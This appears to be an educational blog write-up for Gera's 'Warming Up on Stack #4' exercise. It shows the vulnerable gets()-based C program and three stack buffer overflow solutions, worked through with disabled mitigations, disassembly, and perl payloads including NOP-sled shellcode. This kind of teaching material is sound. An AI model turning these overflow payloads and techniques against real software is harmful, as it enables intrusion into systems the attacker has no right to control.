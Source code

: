 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 4 in the series of posts I started back in August
2012 with an aim to provide an analysis and possible solutions for the
vulnerable programs provided by
[Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte)
at his [Insecure
Programming](http://community.corest.com/%7Egera/InsecureProgramming/)
by example page.

This post follows the [Gera's Warming Up on Stack #3 -
Solutions](/2013/geras-wuos-stack3-solutions.html) post and if you have
not read it, I request you to please do so. Most of the concepts are
very similar and since they have been already talked about, I'll not be
reiterating them here.

Let's get started. Below is the source for the vulnerable
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and
then looks for a specific value in a local variable named `cookie`. If
this value is equal to a certain pre-defined constant, `printf` function
is used to show a `you win!` message to the user. There is no direct
means of modifying the content of the `cookie` variable. The `gets`
function will keep reading from the stdin device until it encounters a
newline or EoF character. Since this reading loop fails to honor the
size of the destination buffer, a classic buffer overflow vulnerability
is introduced in the program. Our aim is to leverage this vulnerability
and exploit this program so that it print the `you win!` message to
stdout.

Here are a few observations that could be made by looking at the source
of the program:

1.  Since it is defined prior to buf, the `cookie` would be placed at a
    higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
is identical to
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
as already outlined in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post.

Here are solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Overflow the internal buf array to overwrite EIP with
    the address of `printf(you win!)`
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the
character array to overwrite `cookie` with desired value,
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
coud not be exploited in that manner. This is beacuse the `cookie` has
been initialized with 0x000a0d00 and if we inject this string, the
newline character (0x0a) will cause the `gets` internal read to stop
processing further characters, thereby breaking our exploit. As such we
won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```shell
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
for this solution:

```shell
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
and find out the location of the `printf` function which displays the
`you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```shell
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

Solution #2: Inject a NOP-prefixed printf(`you win!`) shellcode and overwrite EIP with its address
---------------------------------------------------------------------------------------------------

Let's first recompile
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
and request GCC to mark program stack as executable. Additionally, we
also need to turn ASLR off so that we can have a static return address
to overwrite EIP with:

```shell
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed
`printf(you win!)` shellcode we used to exploit
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post could be reused
here:

```shell
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode through an environment var overwrite EIP with its address
------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```shell
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
program through three different techniques. Depending on the motive of
your exploitation attempt, other techniques could be devised and some,
mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They
just serve the purpose of understanding how exploits used to work before
mitigation features were introduced in modern systems. But, as with
everything else, understanding basics is really important. As mitigation
features mature, exploitation techniques become increasingly complex.
And to understand those, we need to build upon the solid foundation of
basic concepts, like those discussed on this and other blogs.

